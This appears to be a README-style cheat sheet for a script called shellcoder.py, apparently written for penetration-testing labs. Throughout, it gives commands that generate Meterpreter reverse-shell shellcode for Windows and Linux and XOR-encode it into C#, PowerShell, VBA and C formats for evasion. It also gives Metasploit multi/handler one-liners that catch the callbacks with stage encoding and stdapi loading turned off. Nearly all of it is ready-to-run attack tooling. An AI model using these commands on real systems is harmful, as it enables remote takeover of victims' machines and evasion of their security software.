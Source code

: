# <h1 align="center" id="heading">Shellcode Generation & Encoding</h1>
## Shellcode Generation
I can use shellcoder to generate various types of shellcode with the following commands:
```console
python3 shellcoder.py -l tun0 -p 445 -t windows/x64/meterpreter/reverse_tcp -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 445 -t windows/meterpreter/reverse_tcp -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 443 -t windows/x64/meterpreter/reverse_https -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 443 -t windows/meterpreter/reverse_https -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 22 -t linux/x64/meterpreter/reverse_tcp -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 22 -t linux/x86/meterpreter/reverse_tcp -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 443 -t linux/x64/meterpreter_reverse_https -o raw_sc --generate
```
```console
python3 shellcoder.py -l tun0 -p 443 -t linux/x86/meterpreter_reverse_https -o raw_sc --generate
```

## Shellcode Encoding
I can use the following commands to encode raw_sc files in various formats:
```console
python3 shellcoder.py -e csharp_xor -i raw_sc
```
```console
python3 shellcoder.py -e ps1_xor -i raw_sc
```
```console
python3 shellcoder.py -e vba_xor -i raw_sc
```
```console
python3 shellcoder.py -e clang_xor -i raw_sc
```

## Metasploit Listeners
I can use the following command to establish a Metasploit multi/handler in one of the following ways. The most effective is to disable stdapi and then re-load it when the sessions is obtained:
```console
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost tun0; set lport 445; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost tun0; set lport 445; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost tun0; set lport 443; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_https; set lhost tun0; set lport 443; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost tun0; set lport 22; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload linux/x86/meterpreter/reverse_tcp; set lhost tun0; set lport 22; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/meterpreter_reverse_https; set lhost tun0; set lport 443; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; set AutoLoadStdapi false; run"
```
```console
msfconsole -q -x "use exploit/multi/handler; set payload linux/x86/meterpreter_reverse_https; set lhost tun0; set lport 443; set exitfunc thread; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; set AutoLoadStdapi false; run"
```
If I disable stdapi, I can re-enable it with the following command:
```console
load stdapi
```
It is important to re-enable stdapi before running commands or else it will throw an error and potentially kill the shell

